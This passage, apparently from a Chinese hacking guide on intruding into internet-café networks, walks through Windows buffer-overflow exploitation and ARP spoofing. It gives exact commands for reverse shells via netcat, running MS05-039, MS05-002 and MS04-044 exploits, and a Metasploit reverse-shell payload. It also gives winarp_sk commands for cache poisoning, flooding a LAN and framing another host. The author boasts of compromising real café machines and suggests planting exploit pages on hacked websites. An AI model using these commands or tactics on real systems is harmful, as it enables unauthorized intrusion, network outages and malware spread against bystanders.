Windows 作为最流行的操作系统之一，其界面友好、操作简单而且功能强大。要实现这些都不是容易的，Linux/Unix 同样如此。而也许是 Windows 内核的原因，在 Windows 上爆出缓冲区溢出漏洞的次数要远远大于前两者。Windows 在安全性上与 Linux/Unix 还是有一定距离的，不知道刚刚发布的 Windows Vista 安全性如何，不过貌似前景不很乐观。自 2004 年爆出 RPC DCOM（MS03026）这个 Windows 有史以来最严重的漏洞后，Windows 以及微软的其他产品就接连爆出 N 个标记为严重的安全漏洞，其中很多都是可以使攻击者直接获取远程计算机最高权限的……


国内的网络安全形势一直令人担忧……Windows 用户非常多，而每天也有大量的人在研究 Windows 的漏洞……这两方面加和后，表面上安全在网吧并不算什么。综上，Windows 下的缓冲区溢出在网吧很普遍，并且一般只用一个远程缓冲区溢出漏洞就可以拿到一台主机的最高权限。

记得有次（06 年的某天）我使用 04 年的 MS04011 溢出了一个网吧的 N 台客户机……在缓冲区溢出攻击中，有些溢出程序不会使用很正常，但是有一个工具不会使用那就说不过去了，它就是号称安全界的瑞士军刀 nc.exe，全名是 netcat，先让我们来学习它的使用。

```text
-d                后台工作模式
-e prog           在一个监听上绑定一个程序
-l                普通监听模式
-L                持续监听模式，连接中断后仍可继续监听
-p port           指定监听端口
-v                显示详细信息（-vv 更详细）
```

就这几个选项，够用了。NC 的最简单用法是连接某台主机的某个端口：`nc IP port`，比如连接 `10.10.0.21` 的 `114` 端口：`nc 10.10.0.21 114`。

### 什么是正向连接，什么是反向连接

这两个词常出现在缓冲区溢出漏洞研究中。它们是获得 Shell 的两种方式。正向连接通常是目标主机先监听端口，攻击者去连接该端口获取 Shell；反向连接则相反，由攻击者先监听端口，目标在被利用后主动回连攻击者，从而得到 Shell。文中还提到在存在防火墙时，反向连接往往更容易成功。


我们学会了如何使用 nc 正向连接后，再来看如何监听端口。命令格式是 `nc -l -p port`，持续监听可用 `-L`，显示详细信息可用 `-v`（常见为 `-vv`）。示例中在本地监听 114 端口后，来自 `192.168.56.23` 的连接会在终端显示来源 IP 与源端口。监听可随时用 `Ctrl+C` 中止。

根据扫描情况可判断目标是否存在缓冲区溢出漏洞。文中以 Microsoft PnP `MS05-039` Overflow 为例，目标系统为 Windows 2000 Server SP4，并选用了一个反向连接 Exploit（见图 5-3-3）。

先在本地监听 114 端口，再按 Exploit 帮助信息执行：`ms05039 192.168.56.23 192.168.56.21 114 1`，程序提示溢出成功。随后在监听端出现绑定 `cmd` 的连接（图 5-3-4）。


在得到命令提示符后，输入 `ipconfig` 查看 IP，并验证获得 Shell 权限（图 5-3-5）。文中总结：已获得管理员权限的 CMDSHELL，可进一步执行系统操作。


## 5.3.2 IE 的缓冲区溢出漏洞

由于 Windows 的流行，IE 也十分流行，因此 IE 漏洞长期是攻击研究热点。该节进入 IE 缓冲区溢出漏洞的后续内容。十分频繁，通常是一爆就连继 MS0xxxxx 几个一起，很有顺序美。针对 IE 网页浏览器的特性，IE 的溢出漏洞也和其他漏洞的利用方法不同。通常针对 IE 的缓冲区溢出漏洞会生成一个 HTML 网页，如果打开这个网页的浏览器是 IE，且这个漏洞还没有修补，那 IE 将被溢出并执行 Exploit 中攻击者指定的指令。

所以除了生成溢出攻击网页外，引导被攻击者访问到这个网页（有时候也只是一个链接）也是其中很重要的因素。最常用的方法是入侵一个网站，然后在网站的主页上加一个到溢出网页的链接，这样用户在访问主页的时候就访问了溢出主页，就被溢出了……


我以 `MS05-002` 为例，同样使用反向连接的 Exploit。我会在本地搭建一个 Web 服务器，然后受害者很“愚蠢”地直接访问我的溢出攻击网页，即我把溢出网页设置为主页了。首先根据提示用 Exploit 生成一个网页，如图 5-3-6。

有时候也许生成的不仅仅是一个 HTML 文件，有可能存在其他文件，这些文件都是为那个 HTML 文件服务的，所以不要删，要保持这些文件和生成的 HTML 文件同目录。我把生成的文件复制到 Web 服务器的根目录，并把主文件命名为 `index.htm`，这样只要对方访问我的 IP 就可以直接访问到溢出漏洞利用网页了。在开启 Web 服务之前，仍然先监听端口，记住监听的端口要和你在 Exploit 中设置的反向连接端口一致啊！


开启监听，开启 Web 服务，这时候 `192.168.56.23` 访问我了。由于这个 Exploit 的性质，它生成的是一个通知用户 IE 有漏洞的网页，看来这个 Exploit 的作者还是很厚道的！值得学习，如图 5-3-7。

警告了但是仍然在本地监听的 CMD 中获得了远程 Shell，利用这个漏洞得到的仍然是管理员权限的 Shell，如图 5-3-8。一般的入侵者可没有例子中的作者那样好心，会生成一个提示你 IE 有漏洞的网页，他们会竭尽脑汁地伪造一个尽量真实的网页展现给受害者，最大程度地使受害者相信的确是访问出错而不是其他原因；亦或者是完全隐藏漏洞利用网页到某个用户经常访问的页面中，比如首页，这就是我们常说的挂马了。而这样的漏洞利用网页通常也不会只执行反向连接，而是从指定地址下载并运行一个木马程序……


## 5.3.3 本地权限提升漏洞利用

前面讲了那么多都是远程溢出的，并且获得的都是管理员权限。有些漏洞，比如 IIS `w3who.dll ISAPI Overflow`，成功利用后将获得一个 Guest 权限的 Shell，在这样的 Shell 中很多操作都是禁止的，别说加管理员什么的了，这时候本地缓冲区溢出就派上用场了。本地缓冲区溢出漏洞利用的 Exploit 一般会让使用这个漏洞的用户执行一些超过本身权限的操作，或者干脆获得一个有管理员权限的 Shell，权限获得了就天马行空了。这里将演示一个本地缓冲区溢出漏洞的利用过程……

有专门的讲解，我在本地就不用了，这里使用的是 `MS04-044` 漏洞，比较老了，实验用还可以。首先在 Shell 中执行添加用户命令，如图 5-3-9。错误号是 5，即没有权限，然后根据 Exploit 的提示我尝试本地溢出提升权限。这个 Exploit 的原理是直接利用本地溢出漏洞以管理员权限运行一个程序，首先我们来看 Exploit 的用法，如图 5-3-10。

```bash
ms04044 \\C$\\windows\\system32\\cmd.exe \\C$\\windows\\system32\\utilman.exe
```

根据用法我们输入命令。因为我的测试操作系统为 WinXP，所以系统目录名为 Windows，而非 Win2000 下的 Winnt，执行后出现如图 5-3-11。这里我溢出明显失败了，前三步的结果都是 OK，最后一步替换文件 failed 了。不过没有关系，我只是让大家体会一下本地提权漏洞的利用过程，学会在攻击时查看 CMD 中的信息代表什么含义。本地溢出提升权限的攻击方式并不是固定的，这要根据 Exploit 而定，一般情况下都是让攻击者获得一个具有系统或者管理员权限的 CMD 或者其他程序，利用这个程序攻击者就可以自己进行一些越权操作了，比如添加新用户等。


## 5.4 黑掉整个星球——Metasploit

“黑掉整个星球”，这是 Insecure.Org 2006 年度安全工具调查中对 Metasploit 的评价。Metasploit 全名是 Metasploit Framework，从 1.0 版本开始现在已经升级到了 3.0。它最初是由 Perl 语言编写的，3.0 版本改用最近很火的 Ruby 语言编写。Metasploit 自带了上百种 Exploit 和大量的 Shellcode，并且在不断更新；它自带了更新程序，你可以随时更新你的 Exploit 库以包含最新的缓冲区溢出漏洞。

Metasploit 虽功能强大但操作却非常简单，这给了很多人研究高危漏洞的机会。Metasploit 的主控制台程序有两种界面，分别是命令行界面和 Web 界面。我们将主要以命令行界面来讲解如何使用 Metasploit，一旦掌握了命令行下 Metasploit 的使用，Web 界面的不在话下。首先我们将从命令行控制台的使用方法讲起。


### 5.4.1 MSFConsole 的使用

首先安装 Metasploit Framework，超级简单。安装完成后它会在“开始”菜单——“程序”中添加项目，我们从这里启动它的命令行控制台 **MSFconsole.exe**，启动后如图 5-4-1。很 Cool 的 Logo，而且不知道大家注意过没有，每次启动 MSFConsole 都会出现一个不同的 Logo，呵呵还有一个是牛头，太佩服作者的创意了！我使用的版本是 2.7，数了下找到 9 个不同的 Logo，它们好像是随机出现的。输入 `?` 可以获得帮助信息，如图 5-4-2。下面逐一解释这些命令的功能。


| 命令 | 说明 |
|---|---|
| ? 和 help | 显示帮助 |
| cd | 更换当前的工作目录 |
| exit 和 quit | 退出控制台 |
| reload | 重新载入 |
| save | 保存当前设置 |
| setg | 设置一个环境变量 |
| unsetg | 删除一个环境变量 |
| show | 显示可用的 Exploit 和 Payload 及承载项信息 |
| info | 显示 Exploit 或 Payload 的详细信息 |
| use | 使用一个 Exploit |
| set | 设置 Exploit 和 Payload 选项 |
| check | 检查对象是否存在此漏洞 |
| exploit | 开始溢出 |
| version | 显示程序的版本 |


图 5-4-3 显示所有的 Exploit 信息。

首先要用 show 命令查看包含的 Exploit 信息，命令为 `show exploits`，一下子在控制台中打印出很多漏洞信息，如图 5-4-3。这些漏洞有操作系统的也有应用程序的，对于我们关注的 Windows 来说，我们要关心的是 IIS、IE、MS、Win 这些敏感字眼，但是这也不一定能准确说明某个漏洞是针对 Windows 的。我们可以使用 info 命令查看某个 Exploit 的详细信息，这里以 MS06-025 为例，命令格式为 `info ExploitName`，如图 5-4-4。

Metasploit 给出了这个漏洞的详细信息，其中对我们很重要的有该漏洞支持的操作系统类型、Exploit 需要设置的选项。在 Available Targets 下我们可以查看哪些操作系统存在此漏洞，在 Available Options 中查看 Exploit 所需要的选项，其中 required 是必选的，optional 是可选的。一般除了本地 IP 和远程 IP 需要指定外，其他选项均有默认设置。在 Description 中我们可以获得这个漏洞的描述信息，所有这些我们也可以从漏洞公布网站获得。

好了，我们已经了解了这个漏洞对 Win2000 是有效的，而我的目标恰巧就使用的是这个类型的操作系统，那么我就可以确认使用它了。输入命令 `use rras_ms06_025`，这时候提示符也变成包含这个 Exploit 的形式，这样很直观。选取了 Exploit，接下来该选择一个 ShellCode 了。在 Metasploit 中 ShellCode 的名称是 Payload，中文翻译作有效负荷，我们输入 `show payloads` 查看当前环境下可用的 ShellCode 信息，如图 5-4-5。


图 5-4-4 查看 Exploit 的详细信息。


图 5-4-5 显示所有可用的 ShellCode。

由于我选择的 Exploit 是针对 Windows 的，所以 Metasploit 很聪明，把所有在 Windows 下无效的 ShellCode 过滤了。有这么多的 ShellCode 供我们选择，光反向连接的就有 8 种，选哪一个好呢？这要根据你的实际情况而定。同样可以使用 info 命令查看指定 payload 的信息，比如我查看 `win32_adduser` 的信息，如图 5-4-6。

在最后的 Description 中我们可以了解到这个 ShellCode 的功能，而在 Available Options 中我们需要了解哪些选项是必须输入的。不同的 Exploit 选项不同，ShellCode 同样如此，一旦你接触缓冲区溢出漏洞时间长了，只凭名字你就可以判断一个 ShellCode 的功能。其实 Metasploit 同样如此，多用过几次后操作会非常熟练，这和它本身的简单使用是分不开的。


图 5-4-6 查看 ShellCode 的详细信息。

这里我们仍然使用反向连接的 ShellCode，没有办法，太好用了！它的名字是 `win32_reverse`，它是最常用的一个，反连的还有其他几个比较高级的。注意加载 ShellCode 的命令就不是 use 了，而是 set，命令为：`set PAYLOAD win32_reverse`，注意 PAYLOAD 一定要大写，Metasploit 对大小写敏感。set 命令的格式是 `set [option_name] [option_value]`，其中常用选项有 RHOST（目标主机 IP 地址）、LHOST（本地 IP 地址）、RPORT（远程端口）、LPORT（本地端口）、TARGET（目标主机漏洞软件的版本），注意它们都是大写的。

这些信息前面已经得到了。如果你前面没有查看这些信息，没有关系，使用 `show options` 同样可以查看哪些选项需要我们输入，而且在此处查看选项较前面要更简便、直观，因为这时候 Exploit 和 Payload 都已经选择好了。我们看到必选项 RHOST 和 LHOST 都是空，那就需要我们指定了，依次输入命令 `set RHOST 192.168.56.23`、`set LHOST 192.168.56.21`。只剩最后一项了，那就是操作系统类型。虽然 Metasploit 会给出一个默认的操作系统类型，但你要知道不同操作系统之间是有差异的，所以这就是很多 Exploit 的选项中包含操作系统类型的原因。输入 `show targets` 命令查看支持的操作系统类型。其中特别是 Automatic 表示自动，即 Metasploit 会自动识别目标类型，然后输入 `set TARGET 1` 就指定了目标操作系统类型为 Windows 2000。

大部分工作都做完了，你可以使用 `show options` 命令检查是否有必选项没有填写。准备就绪后，可以先检查一下对方是否存在该漏洞，输入命令 `check`。如果提示 “No check has been implemented for this module”，表示当前模块没有内置检查工具，但不代表不能溢出；若出现 Error、Failed 等词汇，则很可能不能溢出。最终仍需通过 `exploit` 实际尝试。出现失败信息时，常见于与 SMB 相关漏洞利用失败；如果成功，通常会在当前窗口获得一个 CMDSHELL。

以上提到的命令是渗透中最常用到的。`exit` 和 `quit` 可直接退出；`save` 可保存之前输入的 Exploit、Payload 及选项；`reload` 用于重新加载；`setg` 和 `unsetg` 用于设置/取消全局环境变量。此外还有 `rcheck` 和 `rexploit` 可用于重新检查和重新溢出。

### 5.4.2 MSFWeb 的使用

命令行模式下讲解完了，让我们来看 Web 控制台的使用方式。首先要启动 Metasploit 的 Web 服务，在和 MSFConsole 同样的位置运行 `MSFWeb`，随后命令提示窗口会出现一个地址。此时可在浏览器地址栏输入 `127.0.0.1:55555` 打开控制台。首页为 Exploit 选择页，可通过 “Filter Modules” 筛选并查找需要利用的漏洞模块。


分成应用程序、操作系统和体系结构三部分，分别以 app、os 和 cpu 表示，点击其中的某项控制台会自动过滤掉其他漏洞，十分方便，如图 5-4-14。

我要选择针对 Windows 2000 的漏洞，因此就在 Operating System 下选择 `os::win_2000`，不过该项下还有一个 win2k 的类型，我不知道 win2000 和 win2k 有什么区别。从过滤后的漏洞中我选择了 Microsoft PnP MS05-039 Overflow，直接点击进入这个链接即可。接下来出现的是该漏洞的描述信息以及支持的操作系统版本，如图 5-4-15。


在下面的 “Select Target” 中用鼠标点击其中一个，选择操作系统类型，就进入了 ShellCode 的选择页。选择了 ShellCode 后就要输入选项了，同样有可选和必选的，如图 5-4-16。

“Advanced Module Options” 即高级模块选项，一般保持默认就可以了，把必选信息输入完成后可以点击 “Check” 按钮检查是否可以溢出，提示信息和命令行下都是一致的。点击 **“Launch Exploit”** 即可开始溢出，如果溢出失败的话，Metasploit 会提示你并且马上转到一个“无法显示”页面；而如果溢出成功，就如图 5-4-17。


最后一句 “Shell started on session 9” 告诉我们在 session 9 中获得 Shell，那还等什么，还不快点！

进入 session 后就直接获得了一个 Web 方式的 CMDShell，在文本框中输入命令然后点击 “run” 运行，如图 5-4-18。


不过这个 Shell 是不支持中文显示的。如果你长时间在这个 Shell 没有执行任何命令，那控制台将自动断开连接，提示信息为：“!!! idle timeout reached, reload to start again.” 我们也可以主动断开连接，点……点击命令执行下面的 `Session::Kill` 或者 `Session::Break` 就可以了。

值得一提的是，我们可以在这一个 Web 控制台中对多台主机进行溢出，溢出后的 Shell 都被页面整理在主页的 Session 链接中，如图 5-4-19。

这里只有一个 Shell，如果有多个 Shell 的话都会出现在这里，管理和使用起来都非常方便！

可以感觉到 Web 方式下使用 Metasploit 要比命令行下快捷和方便许多，并且它最大的优势在于可以同时在一个页面中管理多个溢出获得的 Shell，使用起来非常方便。


图 5-4-19 SESSION 管理

但是 Web 方式下无法像命令行控制台那样保存当前设置，呵呵，各有千秋啊！笔者认为这个 Web 控制台用在缓冲区溢出上十分有新意，并且它的 Session 功能十分值得称道，这对于批量控制主机是十分有利的！

总的来说，Metasploit 是一款简单、易用、功能强大的渗透工具，任何第一次使用它的人都可以很快上手，它使网络渗透变得如此简单。Metasploit 的功能绝不仅仅只是笔者提到的这些，这是一款具有革命性意义的工具，建议大家关注这款工具的发展以及该工具的官方信息，你也许会发现，学到的不仅仅是缓冲区溢出漏洞本身。期待更多这样的软件进入寻常百姓家！

> **【选择指点——如何提高溢出的成功率】**

有的朋友明确表示：远程主机存在某个缓冲区溢出漏洞，可就是无法溢出成功……（本框为经验性建议）包括：

- 选择更成熟、适配面更广的溢出代码；
- 根据目标系统版本、语言环境、端口开放情况调整参数；
- 必要时重新扫描与信息收集，避免因误判导致失败；
- 注意防火墙、反向连接与正向连接场景差异；
- 避免高负载 payload，必要时选择更稳妥的 shellcode。

## 6、ARP 欺骗及基于 ARP 欺骗的攻击

在各种各样的入侵手法中，ARP 欺骗以及基于 ARP 欺骗的攻击以其特有的灵活性和高成功率被入侵者们所青睐，并且在内网中这种方法被广泛应用，以至于 ARP 被称为局域网杀手。许多人被 ARP 欺骗攻击所吸引，也许是因为它实现的精妙和多种绚丽的攻击方式吧，而在攻击的过程中获得的不仅仅是攻击原理，对 ARP 本身、对协议和网络本身的脆弱，都有了自己的想法。本节将对 ARP 欺骗以及基于 ARP 欺骗的攻击进行较为详细的讲解。

### 6.1、ARP 协议的工作原理

### 6.1.1、MAC 与局域网中的数据传输

在本章的第一节中我们知道了网络上的节点通信都需要具备哪些要素……在 TCP/IP 网络中地址用于定位节点；而在局域网（以太网）中，数据包传输还需要依赖网卡地址，即 MAC（Media Access Control，媒体访问控制）地址。每一个网卡在被生产出来时都会被分配一个 MAC 地址，理论上该地址是唯一的。

两个十六进制数组合的一个字符串，比如 34-C9-08-AE-E9-21，这是 MAC 地址的标准格式书写，它们有效值的范围在 0~9、A~F 之间。以太网中就是基于 MAC 地址进行通信的。大家也许发现了，与 32 位的 IP 地址不同，MAC 地址是 48 位的。在 TCP/IP 网络中，IP 地址是不可少的，遵循 TCP/IP 协议的软件在发送数据的时候指定地址都必须是一个 IP 地址，这就要求以太网具有把 IP 地址转换为 MAC 地址的能力，这样 TCP/IP 通信才能正常进行，ARP 协议由此而生。

### 6.1.2、ARP 协议以及工作原理

ARP（Address Resolution Protocol），即地址解析协议，它负责把 IP 地址转换为相应的 MAC 地址。说是相应的，因为每个局域网中的计算机在最初进行网络设置的时候，比如给这台计算机设置一个静态 IP，操作系统就会把这个 IP 和网卡的 MAC 地址绑定在一起；而如果使用了 DHCP 服务器分配的动态 IP，则在分配到 IP 的时候，这个 IP 也就和 MAC 地址绑定了，也就是形成了一种 IP 地址和 MAC 地址的对应关系。

现在网络中所有的计算机都有了一个 IP 地址和 MAC 地址，它们可以开始通信了。假设 A 想要和 B 通信，它们的 IP 地址和 MAC 地址分别为 192.168.0.1、AA-AA-AA-AA-AA-AA 和 192.168.0.2、BB-BB-BB-BB-BB-BB。前提是 A 知道 B 的 IP 地址，但是 A 不知道 B 的 MAC 地址，这时候 A 就向局域网中发送一个广播……如果是 B 接收这个数据包的话，它就会把一个包含了自己 IP 地址和 MAC 地址的数据包发送给 A，而其他计算机则会忽略这个包不做任何回应。

一个 ARP 包中要包含的 IP 和 MAC 信息有源 IP、源 MAC、目的 IP 和目的 MAC，前两者表示发送者的 IP 和 MAC 地址，后两者表示要发送到的主机的 IP 地址和 MAC 地址，而发送广播的 MAC 地址是 FF-FF-FF-FF-FF-FF，即向这个地址发送的包将被广播。ARP 协议有一个方法，它在本地保存了一个表，这个表中保存的是每台和自己通信的计算机的 IP 地址和 MAC 地址的对应关系，我们称之为 ARP 缓存。

| IP | MAC |
|---|---|
| 192.168.0.1 | AA-AA-AA-AA-AA-AA |

然后 B 回复给 A 自己的 MAC 地址，这时 A 就算找到 B 了，它也在自己的 ARP 缓存表中添加一个记录。

| IP | MAC |
|---|---|
| 192.168.0.2 | BB-BB-BB-BB-BB-BB |

而 A 当初为了寻找 B 发送的广播中包含有自己的 IP 地址和 MAC 地址，局域网中所有接收到这个广播的计算机都在自己的 ARP 缓存中添加 A 的记录。使用 ARP 缓存表在很大程度上提高了计算机之间的通信速度……这个生存时间一般是 60 秒，60s 后要想和一个已经删除了记录的 IP 通信的话必须重新广播。

### 6.2、ARP 协议的漏洞以及 ARP 欺骗

在讲述 ARP 协议的缺陷之前我们先来假设这样一个环境：一个局域网中有 A、B 和 C 三台主机，它们的 IP 地址和 MAC 地址分别为：

| 主机 | IP | MAC |
|---|---|---|
| A | 192.168.0.1 | AA-AA-AA-AA-AA-AA |
| B | 192.168.0.2 | BB-BB-BB-BB-BB-BB |
| C | 192.168.0.3 | CC-CC-CC-CC-CC-CC |

假设它们之间从未有过一次通信。这时候 A 开始和 C 进行第一次对话，由于 A 的 ARP 缓存表中没有关于 C 的 MAC 记录，因此 A 需要发送一个包含目的 IP 地址、源 IP 地址和源 MAC 地址的数据广播到局域网中……A 接收到了数据包很高兴，于是在 ARP 缓存表中添加了“C”的记录：

| IP | MAC |
|---|---|
| 192.168.0.3 | BB-BB-BB-BB-BB-BB |

A 对此毫不怀疑，并开始进行真正的通信，它开始向 192.168.0.3 发送数据。而由于这个局域网中最终确定传递地址的是 MAC 地址而非 IP 地址，经过 ARP 协议的解析，192.168.0.3 被解析到了 BB-BB-BB-BB-BB-BB 这个 MAC 地址上了，而这个地址是 B 的而非 C 的！A 对此毫无察觉，并仍然发送数据包到 B。

这就是 ARP 协议设计上存在的缺陷了，它采用广播的形式找某个 IP 的 MAC 地址，这就不排除局域网中任何一台计算机都有可能回复这个请求。而 ARP 协议没有对回复进行验证，确定是否这个数据包是来自发送请求时的目的地，这就肯定了我们确实可以伪造回复数据包给发送广播的计算机使其无法与最初的目标通信。

但是事实上 C 同样收到了广播，并且发现数据包中包含的 IP 地址正是自己的 IP 地址，因此它也会回复 A 并告诉它自己的 MAC 地址。而 A 的 ARP 缓存表中已经有一个“C”的记录了（在 A 看来，这两个 C 是一样的），这时候会发生什么呢？ARP 协议使用一种即时更新机制，如果接收到的数据包中包含的 IP 地址在 ARP 缓存中已经有记录了，则更新这个记录；若不存在则添加新记录。这时候 C 的回复使 A 的 ARP 缓存记录更新，A 和 C 才真正开始第一次通信，通信正常了。

还记得在刚开始接触 ARP 缓存的那部分内容时，B 接收到 A 的请求后，在本地的 ARP 缓存表中添加了一个 A 的 IP 地址和 MAC 地址的记录。也就是说一个请求也可以添加一个 ARP 缓存记录。同样的，一个请求也可以更新 ARP 缓存中的信息。回到本例，B 看到 A 和 C 可以正常通信了，感到十分愤懑，于是他坏笑着又发送了一个包含 C 的 IP 地址和自己的 MAC 地址的数据包到 A，这时候 A 的 ARP 缓存再次更新，A 和 C 的通信中断了。由于 ARP 缓存记录有生存时间，同时 B 又不想看到 C 再次更新 A 的关于 C 的 ARP 缓存记录，于是 B 伪造了大量数据包发送到 A，这样 A 的 ARP 缓存中保存的关于 C 的 MAC 记录就一直保持在：

| IP | MAC |
|---|---|
| 192.168.0.3 | BB-BB-BB-BB-BB-BB |

毫无疑问，B 达到了预期的目的——A 和 C 无法通信了！

这种攻击就被称作 ARP 欺骗，上面模拟的欺骗过程是最基本的 ARP 欺骗了。就在这个基础上，更多的欺骗方法被利用出来，这些例子有些非常类似于我们日常生活中接触到的一些欺骗手法，最经典的例子就要数中间人攻击了。接下来我将由浅入深地展示几个 ARP 欺骗实例，这里必将涉及到一些工具的使用，多是命令行工具，所以可操作性非常强！

### 6.3、ARP 欺骗实例精讲

| 节点 | 配置 |
|---|---|
| 攻击者 22 | 操作系统：Windows 2000 Server SP4；IP 地址：192.168.56.22；MAC 地址：00-0C-29-69-3E-26 |
| 服务器 23 | 操作系统：Windows 2000 Server SP4；IP 地址：192.168.56.23；MAC 地址：00-0C-29-8E-ED-4B |
| 客户机 21 | 操作系统：Windows XP Professional SP2；IP 地址：192.168.56.21；MAC 地址：00-50-56-C0-00-08 |

除了客户机 21 外，其他两台都是用 VMware Workstation 虚拟出来的，以下所有的操作都将在这个环境下进行，有些攻击只涉及到其中两台，而有些则会全部用到。

### 6.3.1、ARP 欺骗初步

通过前面的讲解我们已经对 ARP 下的攻击有个大致了解了，因此我们可以猜想到最简单的攻击就是使目标主机无法正常通信，这非常容易做到。其实 ARP 欺骗的来源就要归结到 ARP 缓存表了，它在通信中寻找目标主机的优先级是最高的，我们要使目标主机无法正常通信，只要让它的缓存表中存在一些虚假的 IP-MAC 对应记录就可以了。笔者看了一些国外的资料，他们大多把这种攻击命名为 ARP cache poisoning，即 ARP 缓存中毒，呵呵够形象。在看到资料的网站上我也找到了利用工具——winarp_sk，被誉为 ARP 欺骗的瑞士军刀（SK is short for Swiss Knife），不过笔者对这款工具用得还是很不顺手，基本的用法是会用了，不过有时候它的一些错误我不知道该如何解决，而且我这台主机很不配合，网卡有些小毛病，有时候会提示找不到网卡，不知道是驱动的问题还是……有些操作需要在虚拟机上进行。

在 ARP 欺骗的攻击中，几乎所有工具都需要 WinPcap 驱动的支持，所以在使用这些工具之前要先安装 WinPcap。我发现有些程序在不同 WinPcap 版本下的表现也不一样，有的版本下 ARP 欺骗工具是会出错的，比如最常见的找不到适配器。我使用的是 WinPcap 3.0，你应该根据自己的情况选择使用哪个版本。

## 网吧入侵全程讲解

WinPcap 的安装就不说了，下面开始欺骗。我将在主机 22 上进行 ARP 攻击，目的是使客户端不能和服务器通信；手段就是使客户机的 ARP 缓存表中的服务器 IP 记录一直对应一个虚假的 MAC 地址（可以是任意 MAC 地址，只要不是 FF-FF-FF-FF-FF-FF 和真实 MAC）。这样的攻击有点类似于 DOS 攻击。让我们来实际操作看下效果，首先我在 21 上 Ping 23，如图 6-3-1。


图 6-3-1：Ping 23 主机

Ping 通了，说明可以正常通信（不过也可能不正常，这个后面有讲到）。下面攻击者要实施攻击了，我们来到主机 22，首先运行 Winarp_sk.exe，它同样是一个命令行工具，如图 6-3-2。


图 6-3-2：Winarp_sk 参数说明帮助信息

它的可选项很多，更说明了“瑞士军刀”的地位。我们来看几个会用到的选项：

- `-m`：发送包的类型，其中 `1` 为请求包，`2` 为回复包
- `-s`：指定要发送的 ARP 包中的源 IP 地址（发送方 IP）
- `-d`：指定要发送的 ARP 包中的目的 IP 地址（接收方 IP）
- `-F`：设置发送方的 MAC 地址
- `-T`：设置接收方的 MAC 地址

细心的朋友也许发现了，程序帮助信息里的 `-s` 和 `-d` 选项写反了。虽然在这里使用 Winarp_sk 不会出错，也可以找到网卡，但会提示找不到目标主机的 MAC 地址。后来我加了一个看起来无关紧要的选项 `-T`，反而可以成功发送数据包。这个选项参数只要是标准 Windows 的 MAC 地址格式就行。因为 Winarp_sk 在执行时会直接获取 `-d` 后面的 IP 的 MAC 作为目标 MAC，这个地址也可以用 `-D` 选项指定。我的命令是：`winarp_sk -m 1 -s 192.168.56.23 -d 192.168.56.21 -T 77-77-77-77-77-77`。注意 Winarp_sk 是大小写敏感的。命令输入完毕运行后，程序会提示你选择网卡，我这里只有一个，就选择 1 了，如图 6-3-3。


图 6-3-3：开始发送 ARP 包

我们看到开始发送 ARP 包了，中间部分给出了这个包的详细信息，包括类型、请求、IP 和 MAC 地址信息。大家对照命令和这些信息，就很容易理解每个选项对应包中的内容了。我这个命令是告诉 192.168.56.21：192.168.56.23 的 MAC 地址是 22 的 MAC 地址。因为这个地址没有在程序运行时指定，Winarp_sk 会默认源地址是发送 ARP 包的主机 MAC。要欺骗哪个 IP，就在 `-d` 选项后把目标主机设为这台主机；要更新目标主机的哪个 IP 记录，就用 `-s` 选项指定 IP。这些大家明白了吧！这时候在 21 上看下 ARP 缓存信息，如图 6-3-4。


图 6-3-4：查看本地 ARP 缓存

记录中 192.168.56.23 对应的 MAC 地址是 00-0c-29-69-3e-26，我们知道这个 MAC 地址可是 22 的呀！呵呵，ARP 欺骗成功了。这时候在 21 上 Ping 23，请求都超时了，也就是说 21 和 23 无法通信了，如图 6-3-5。


图 6-3-5：无法 Ping 通

目的达到了。但是有时候攻击没有这么快见效，有时我在使用 `arp -a` 查看本地缓存后，记录中的服务器的 MAC 地址确实是虚假的，但却可以 Ping 通，也可以成功 Telnet 登录，这种现象使我十分困惑！看来这些东西还得从原理方面去学习，任何事情的发生都有必然的原因！我们这里只要来理解原理，学会工具的使用就可以了。上一个例子中的源 MAC 地址是攻击者的 MAC，而如果攻击者不想让数据都发送到自己的主机上，或者想嫁祸另外一台主机，这时就可以加上 `-F` 选项指定一个 MAC 地址，比如我指定一个 MAC 地址是 AA-AA-AA-AA-AA-AA，那命令就是 `winarp_sk -m 1 -s 192.168.56.23 -d 192.168.56.21 -T 77-77-77-77-77-77 -F AA-AA-AA-AA-AA-AA`，开始攻击！这时候在 21 上查看 ARP 缓存表，如图 6-3-6。


哈哈，192.168.56.23 的 MAC 地址变成了 AA-AA-AA-AA-AA-AA（MAC 地址大小写不敏感），这时候如果 21 要给 23 发送数据的话，就会把数据发送到 MAC 地址是 AA-AA-AA-AA-AA-AA 的主机上，而同样的是它无法和服务器 23 通信了！而如果管理员要纠察造成 ARP 缓存表中毒的主机的话，MAC 地址是 AA-AA-AA-AA-AA-AA 的家伙就成了“替死鬼”了！

以上展示的是最简单的 ARP 欺骗利用——使 LAN 中某台计算机无法通信。而很容易就可以想到的是，我们不仅仅可以对一台主机这样做，甚至可以对局域网中的所有主机发送虚假的 ARP 包，这样的话又可以形成一种 DOS 攻击。在局域网中，网关的地位不用说是非常重要的，LAN 中的其他主机如果要访问 Internet 的话都必须先通过网关；我想不能访问 Internet 的网吧还没有吧！这样的网关就成了 ARP 攻击的主要对象。一个攻击者可以发送一个包含网关 IP 和一个虚假网关 MAC 地址的包到存在于 LAN 中的所有主机，只要攻击者持续发送这个包，那所有主机都没有办法访问 Internet，这就是前一阵在网吧肆虐的 ARP 病毒的攻击原理了。

同时向多台主机发包，Winarp_sk 本身是没有这种功能的，但是我们可以简单地通过批处理实现。要想用 For 语句就可以了，当然首先你得获得所在 LAN 中的所有客户机的 IP 地址，它们应该是连续的吧！呵呵，这个就要读者自己去完成了，不过我要提醒广大黑友，在网吧做这种事情是很危险的，网管通常对掉线十分厌烦，而且大部分来网吧的朋友还是很无辜的，呵呵手下留情吧，大家明白攻击原理和危害性就可以了。

通过向多台主机的 ARP 欺骗我又想到一种攻击方法，可以把 LAN 中所有主机的 MAC 地址都定义为要攻击的主机的 MAC 地址，这样所有计算机的数据都会流向后者。不明白？比如攻击者是 A，目标主机是 B，同时 MAC 地址是 BB-BB-BB-BB-BB-BB，局域网的其他主机为 N，这时 A 向 LAN 中所有计算机发送一个包含源 IP 和 MAC 地址为 BB-BB-BB-BB-BB-BB 的 ARP 包，这样所有主机在访问源 IP 的时候就会把所有数据包发送到 B，B 由于接收到了过多的包处理不过来，于是它应该接收并处理的包被淹没或者被丢弃，这就造成了 B 的通信阻塞，也就是我们常说的洪水攻击了。

### 6.3.2、实战中间人攻击

